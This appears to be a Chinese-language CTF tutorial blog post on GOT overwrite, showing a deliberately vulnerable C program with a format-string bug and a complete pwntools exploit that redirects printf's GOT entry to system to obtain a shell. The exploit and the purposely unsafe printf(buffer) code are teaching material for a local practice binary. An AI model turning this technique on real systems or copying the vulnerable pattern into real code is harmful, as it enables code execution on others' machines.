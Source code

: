 ```yaml
---
title: '利用 GOT Overwrite'
date: '2023-08-28'
lastmod: '2023-08-29'
tags: ['PWN', 'Stack']
draft: false
summary: '使用格式化字符串漏洞覆盖 GOT 表 get shell'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 源码

LINK

这可能是 GOT Overwrite 题中最简单的一个了。

```c:source.c showLineNumbers
#include <stdio.h>

void vuln() {
  char buffer[300];

  while(1) {
    fgets(buffer, sizeof(buffer), stdin);

    printf(buffer);
    puts("");
  }
}

int main() {
  vuln();

  return 0;
}
```

一个简单的无限循环接收用户的输入，并用 `printf` 将其输出。这里不存在缓冲区溢出，只有格式化字符串漏洞。

现在假设关闭了 ASLR，可以先自己试一试利用 GOT Overwrite 漏洞进行覆写 :)

## 0x02 漏洞利用

先设置好基本框架。

```python showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000

p = process()
```

为了利用 `%n` 覆盖 GOT 表，我们需要找到格式化字符串读取到我们输入的缓冲区开始的偏移量。

```
$ ./got_overwrite-32
%p %p %p %p %p %p
0x12c 0xf7e445c0 0x8049191 0x40 0x25207025 0x70252070
```

可以确定是第五个位置。接下来获取该位置的地址：

```
$ ./got_overwrite-32
%5$p
0x70243525
```

完善 exp。

```python showLineNumbers
payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})

p.sendline(payload)

p.interactive()
```

这样就覆写成功了。如果缓冲区受到限制，你可以发送 `/bin/sh` 获得 shell 并运行更多命令。

### 1x01 最终 Exploit

```python:exp.py showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})

p.sendline(payload)

p.interactive()
```

## 0x03 64-bit

老样子 :)

LINK

## 0x04 ASLR 版本

如果你想要额外的挑战，这里请启用 ASLR 并尝试解下面的题目。

LINK

